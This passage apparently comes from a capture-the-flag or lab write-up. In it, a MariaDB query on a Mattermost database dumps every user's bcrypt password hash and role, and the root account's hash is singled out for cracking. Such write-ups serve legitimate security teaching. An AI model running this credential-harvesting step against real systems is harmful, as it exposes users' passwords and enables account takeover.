 ```bash
| Nickname           | varchar(64)  | YES  |     | NULL    |       |
| FirstName          | varchar(64)  | YES  |     | NULL    |       |
| LastName           | varchar(64)  | YES  |     | NULL    |       |
| Position           | varchar(128) | YES  |     | NULL    |       |
| Roles              | text         | YES  |     | NULL    |       |
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |
| Props              | text         | YES  |     | NULL    |       |
| NotifyProps        | text         | YES  |     | NULL    |       |
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |
| Locale             | varchar(5)   | YES  |     | NULL    |       |
| Timezone           | text         | YES  |     | NULL    |       |
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |
+--------------------+--------------+------+-----+---------+-------+
25 rows in set (0.002 sec)

MariaDB [mattermost]> select Username, Password, Roles from Users;
+----------------------------------+--------------------------------------------------------------+--------------------------+
| Username                         | Password                                                     | Roles                    |
+----------------------------------+--------------------------------------------------------------+--------------------------+
| surveybot                        |                                                              | system_user              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | system_user              |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | system_user              |
| sample1                          | $2a$10$WOMOV3dm5TkgkKKhLFyiPeY3ACbQ3wb5o/Vzt0DepblaLqJn.q542 | system_user              |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | system_admin system_user |
| jib1337                          | $2a$10$ZK1Hi3MaqINwVjmF5DHiW.qqZ05YHyzrEX5mch5LaBFOc6uUguP5W | system_user              |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | system_user              |
| channelexport                    |                                                              | system_user              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | system_user              |
| jack1337                         | $2a$10$kR4.BnUQIYNpTvdfpoU0RemSv72VZhmt6samtt3ifsZyFvDdXdh9i | system_user              |
+----------------------------------+--------------------------------------------------------------+--------------------------+
10 rows in set (0.001 sec)
```

The root user's hash is retrieved as: `$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO`.  
This appears to be a bcrypt hash.
